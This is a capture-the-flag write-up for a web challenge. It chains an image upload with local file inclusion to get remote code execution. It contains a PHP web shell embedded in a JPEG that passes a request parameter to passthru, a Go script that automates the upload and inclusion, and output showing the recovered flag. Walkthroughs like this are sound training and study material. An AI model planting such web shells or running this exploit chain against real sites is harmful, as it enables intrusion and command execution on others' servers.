 There are two vulnerabilities we can exploit:

* we can upload an image file with php embedded in it
* we can make the server include our image file and execute our code

We can get php shellcode online, I found this:

```php
root@14a2c8b9938e:/pwd/lfi# cat shell.php.jpg
����
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```

Then we can write code to automate the entire process:

```go
func main() {
	imageURL := upload("./shell.php.jpg")
	if imageURL == "" {
		log.Fatalln("Failed to upload exploit!")
    }
    // http://lfi.hax1.allesctf.net:8081/index.php?site=view.php&image=uploads/55057da5bf3462877b44943b9c507ee3.jpg
	fmt.Println(base + "/" + imageURL)
    parts := strings.Split(imageURL, "=")
    
    // http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/55057da5bf3462877b44943b9c507ee3.jpg&cmd=cat+flag.php+%7C+base64
	target := base + "/" + parts[0] + "=" + parts[len(parts)-1] + "&cmd=" + url.QueryEscape("cat flag.php | base64")
	fmt.Println(target)
	rsp, err := http.Get(target)
	checkErr(err)
	fmt.Println(rsp.StatusCode)

	flag, err := base64.StdEncoding.DecodeString(strings.ReplaceAll(pre.FindString(resStr(rsp)), "<pre>", ""))
	checkErr(err)
	fmt.Println(string(flag))
}
```

```console
root@14a2c8b9938e:/pwd/lfi# go run .
[...]
$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```
